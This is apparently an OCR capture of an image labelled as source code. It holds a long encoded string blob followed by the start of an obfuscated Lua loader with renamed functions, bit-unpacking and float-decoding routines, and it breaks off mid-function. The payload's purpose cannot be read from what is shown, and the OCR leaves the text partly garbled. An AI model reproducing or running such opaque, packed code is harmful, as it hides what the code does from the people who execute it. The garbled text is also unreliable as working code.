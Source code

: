 YlY7A0A#euq{RI_qN_#*#0I#Iu7exlIqt_FRA07*eMbllIb7eN#RNeI*bF7lRxuAX0euAevIeqb_l7_0NN_*lbIINq7_*7u02*quRR0xeA0NlI_eN*N&*lI#uA7NNRueuIqqA_07eqp#lR%bNIbq*_I7x07NxuubNxqqRN0Reeb*lublNItA*NNRxe7*R/ub#7qAN#0uebbIlq__Nx70*N-uxbNIRqu_vRq00*0uNlbxqA_NNR#e*#x/xlexRA0NhRubAI0IA_bxR0_NJu#bqIIqxA*7R0l#tuxlAx0AeNbx7e_#?<#lAxIA0N7xR07*<2#_AxI0e#Aulb_*Rq#_07I0b#7ulbuI&cNNARAee#uLlbhxNAb0RRIe**7R7luxu0q#A77beIeql_b7N0##*uIelI7qR_u7Req*A&0lee7AlN_RNeN**8IlxxxA7NuRM0ueNq0_e7bu*#_uNb#Ieqe_x770Rl<uQb%xAA0NeRquR*_pNl##IAINIR7eRbNOr_q7A00#eubblI_Ru_#7#0I#xu7bRIuqC_0RAe0*eKbllxlANl#_7eI*xE7lRxu77#q7jbAIeqe_lNm0N##u*e#*uq7_x7uve*qDAl0IRIqNlReeN*N9*l*xxAxNRRu00IqqA_0700b#lu_bN#*q*_#7x0I#RuRbB*uqRN0RAeb_lw_lNx#qNN#Rxe**RIelV7q0A_07NbbI0q__b7#A_#IR*bIIRqI_WN7eA*0Yeeb*#A_NeR#el*I77l7IxA_N5RxbAbNqe_b7lq_AIu#bbIIq__7#x0uNRx*lAI7AeA*Rle_*NR#b*xIAlN7RNeub*qq_Axb0eNRulb_INq#_*x#qW#7ulbu_#AqNAR00AN#>lbRxNulN*RIex#I-#luxl0q0uu0beIbqAbu7N0q#*7IbxIxqR_uI0eq#l!0buxbAlN_RN70**uRlxxAARNuRKbq*;q0lN7b0e#_ulb#I*q#_x7l0R#euwbbxAA0NqRb0u*_uxl#IuAINN*qeR*_&nb_7A0A#eub7uI_6Q_#7A0I#xu7bNeIqH_#RA00*e.ellxqANN#x7eI*x97lxxuAd#quA0lIeqb_l700N##u*bI#uq7_R7u0N*qmAl0xevNNlR_eN*lS*lIxxA7_qRuenIqjI_07e0b#l7*bNI#q*_*7x07#RuuA_xqq#N07xeb*lt_lNI*A*NqRxe7*R?ulw7qql#0RIbbIeq__l7#0*_uuxb7IRql_<RqeA*0uclbxlA_NlR#e**IHxlqxRAuNauqbAI0qe_qxx0_#Nu#b*I*qI_7xxRb#.wqlAlRAeNbRlA_Auh#l*xIAxN7#Ieu#R=7_A700eNlulb_IN)_l*7I0x#7*#buIcAqlA7Aee*b4ll_xNq_N*7#0A*7sRlu#q0q#Au0be##ql__7N0N#*uIbx*Iq#_u71eq#AK0lexbqeA7RNe#**x*lxx7ARl#7RbqIAq00#7b0b#_Rub#Il70_x770Rleu5bCxAA0PxRbel*_2_l#x*AI_*#0eR*u}iA07A00#eR0qRI_q__#Nu0I#xu70RIRqv_(RAeA*e(qllIbAqN#R_eIb0E7lRxuAL_xuAbAIeqA_l7_0N##RRbIIxq7_R7u0R*q(AblxeAbNlRleN*_a*eIxlA7N7Rue^Iqu7_07e7R#luebNI#q*_e7x6704uub7xqueN0**eb_luulNxlA*bjRxA**R7ulu7qAu#0I7bb#<q_eN700*#Nux0lIRu*_BIq0**0&qlb#RA__AR#q*#*,xl*xRm7N;I_bAN0V*_b700_bbu#AlIIqx0#7R0R#ouRlAxqAeN0N*e_*lB#b7xIAxN7Rxu0*rjR_AxI0e#bul0_0bq#_l7I0x#7x#buIGqxNA77ee*bjll0xNu#NNRIel*77>luN_0qlAR*be*uqlA_7Nu##*xIb_I7qN_uxAeqN*&00eIuAlNqRNu***RRlxx7A7NuRxbq*xq0_07bAe07uNbbI*q*_x770Rlu_RlqIRA0__RbAx*_ulbIx*A_NxRxeR*uf=_qI*00Nuubb0I_qN_#7*0*#xuNbRIRqa_uRA07N,-blqx_xIN#R#eI*Ik7l*N_Ag#quAulIeqe_lxbRe##ubbI#Iq7_R7uAH_b^AbuxexINlRAeN*_*RlIxNA7NxRue9IqKxuu7eAt#luAbNINq*_*7x07Nquub&xqAAN0Reeb#r#0lNx0A*NbRxex*R/RlO7qqb#0uebbIlq__N7#ANl#uxblIRqR_&RqeAN0uelbIuA_NqR#R/*Iu*b0xRA_NwRrbAI0qebbID0_Nku#bAIIFu_77NA0#Cu*lAbbAeNeRl0u*NVbAAxIAxN7_)eu*uqq_A*l0eNRulb0INq#_*7I7q#7u_buIuAqNqR0ee#l)lbpxNAeN*RIex*7u_lux#0q#qu0b0IbqAl*7N0##*blbxIxqRbu7qeq#I40l0xbRRN_RNxb**rAlxx7ARNxRgAq*qq0lI7bDN#_RIb#N*qb_x7e0Rl#uLe#xAu0l?Rb07*_u_l#*_AINx7IeR*NJUlN7A0q#e7b0II_Tw_#700Ib_u7bR*Iqi__RAe0*e1qll#_RRN#7CeI_Rt7AAxuu5_buAe#IeI7_lIl0Nl#u*bIIAq7be7uA**qu=-_xeq*Nl7xeN*#=*bI#lA7NeRuu#Iq}__07eqI#lRubN*uq*_*7xq7NluubNxqqIN0IAeb*lR*lNIuA*NIRxeI*R7ub57qAN#0xlbbl{q__Alb0*NZuxeRIRqR_T77eA*0R_lbxlA_NlR#e**I+xewxRAuN&R7bAI0qe_bI#0_#Nu#bbIIqx_77RAA#p5qlAI7AeNbRl0__Ag#bCxI7bN7R0eu*f4A_AxI0eNIulblINu#_A7I0e#7u7buNNAqNAxRee#Inll_xNAlN*II0b*76elu*A0qlxu0Ae_Iqll77NL0#*R0bxN7SA_u7leq#q=0eqxbAle0RNeq**<qlxxIAR_7*bbq*#q0AA7b0l#_RlexI*qq_x#S0R#uu6eu*RA0_#Rb0R*_GNl#INqbNxRqeR#lz5_q7AAq_xube#I_qq_#7*0I_xR*bRIqqV_#RAqq*eXbeIx_qNN#R*eI**w70RxuAYNquAAbIeub_l7qxe##R#bII0q7_77u0R*qYAelxeAbNl7xeN*#i*lI*uA7NRRue^IqqA_0xeAI#lR_bNlAq*l*7x07#xuubAxqqAN0R0ebNlullNIIA*N0RxA#*Ru7b*7qAA#077bbIlq__Nxq0*N7uxe7IRqR_&xqA_*0ullbIRA_blR#e*#q)xb7xRAuN,RubAN0qe_bxl0_l*u#bbIIql&#7RAR#aublAxAAeN0Rle_NIW#l*xIquN7RReu*Bue_A700e#bulb_INO#Ax7IAx#7*_bu*uAqNAx*ee#_Plb_xNANN*RI0#*7!_luxK0q#Au00e*lqllP7N0N#*x0bxI7#*_u7_eq*Ak0lqxbul_RRN0%**77lxN0ARbuRbbq*#q00R7buN#_xNeuI*qA_xxx0R_xu)lqIAA0_7Rb07*_rll#**A#NxRbeR*NZF0Z7A00NEubexI_qN_#7#0Ilxu7bRIbq b0RA0_*e.buex_qhN#7/eI*IU7eRIxAHN#uAexIeuq_lxbqI##RGbIIlq7_R7u0%NlrAbIxeqINlRleNN#10lIxeA7N_RuAxIquzbu7eAI#l7NbNI#q*_Ixq07#luublxqAqN0xe0l*luulNxAA*b*Rxe7bR!ull7q0A#0u0bbNl}e_Nxu0*l7uxP-IRqu_ARq0**0u*lbxbA__l7Ne**0TxqxxRAuN87qeRI0FI_bxu0_llu#b**Iqx_A7R0u#+uulA#0w#Nb7Ie__*.#euxIAlq#RRe0*vER_A7A0e#0ulb_#Iq#_*7I0e#7uRbuI}JeNAR0ee*b8ll_xNq#_rRIeq*7I_luxe0q#ARIbe*xqllx7N0N#*7IelI7qb_u7#eq_Rf0bA*=Al_xRNLb**UIlxx7qeNuR_bq*_q0_07bql#AuNe}I*q*_x*b0R#uuxlqI_A0NeRbe0*_7NAux*q)NxIueRNl^^eqx=00N#ubqDI_ux_#**0I#xuAbR*RqybRRAe0ba+bb7x_q7N#RNeINxRblRxbA)NNuAAuIe>0lx7_Ax##xRbIIxq7_RxI0n#_OAb_xeAeNlx_0b*#uWlIx0A7bxRue/*xqAl_7e0b#lubbNN#SI_IxM07l<uuqNxqqxQuRe0N*lu#lNxNA*N*Rxe7#q5ul57q0A#0uebb*lRq_Nx70*eeuxe)IRqul7Rq0N*0uNlbxbA_lNRNe**qKxlexRu7NOuqelI0XN_b7l0_#lu#A**Iqx_q7Rqq#L7elAI7*vNb7#e_#Rf#l#xIAIN7RR0A*mqq_A700e#bule_*Rq#lR7IRb#7uqbuIEqINA7#ee##slllxN.#_lRIeA*7Sblu*x0q_K7lbe*#qll07N0##*uIb0I7qe_u7eeq*qY0eeI#Al_7RN0{**7#lxx7q*NuRebqIAq0_A7btl#_uNe7I*R7_x7A0R##NxlqIbA0NeRbeb*_+_l#x*2RNxR7eR*u)._q7AA0bRube*I_xq_#x70I#xuNbRIbqf_bRAeA*eRbbNx_qRN#RqeI_*17lRxbAfNbuAb0Ieq0_l*_A*##RRbINRq7l27u0*A7 AblxeAqNlRleN*N.*lI*uA7NRRueYIqqA_0xeuu#lRIbNlAq*lR7x07N#uublxqqlN0R0ebNlR!lNIuA*N*Rxqb*RUulu7qAl#0uebbI0q_eNx_0*NuuxAuIRRe_WIqI7*0uNlbNvA__RR#q*#_TxlqxRqRNUxRbAI0u*_bxx0_Nxu#bNIIuxbW7R0e#5u_lA#uAe_0xRe_#Ia#lNxIAxN7RR0R*gwl_Axl0e#eul0_*Rq#lu7I0A#7xxbuIcx*NA7lee*bhllbxNu#N*RI0u*77}lux70qNx_ube*_qll.7N0N#*u*bxI7zq_u7Keq*A;0lexbql0ARN0x**IelxIuARNu7ubq*_q0l_7b0b#_7Nb_I*^,_x770Rllu:lq*xA0_#Rbee*_>_l#x*AeNxR7eR*uU,_q7A00qxubblI_q__#7*0I");local l=0;o.ZGDP_LLx(function()o.CRsFQkOY()l=l+1 end)local function e(e,n)if n then return l end;l=e+l;end local n,l,r=t(0,t,e,a,o.vSscgsXZ);local function d()local l,n=o.vSscgsXZ(a,e(1,3),e(5,6)+2);e(2);return(n*256)+l;end;local s=true;local s=0 local function k()local e=l();local l=l();local b=1;local u=(n(l,1,20)*(2^32))+e;local e=n(l,21,31);local l=((-1)^n(l,32));if(e==0)then if(u==s)then return l*0;else e=1;b=0;end;elseif(e==2047)then return(u==0)and(l*(1/0))or(l*(0/0));end;return o.FsBWDIcC(l,e-1023)*(b+(u/(2^52)));end;local p=l;local function g(l)local n;if(not l)then l=p();if(l==0)then return'';end;end;n=o.ZRlGufTh(a,e(1,3),e(5,6)+l-1);e(l)local e=""for l=(1+s),#n do e=e..o.ZRlGufTh(n,l,l)end return e;end;local s=#o.XpHxewvv(h('\49.\48'))~=1 local e=l;local function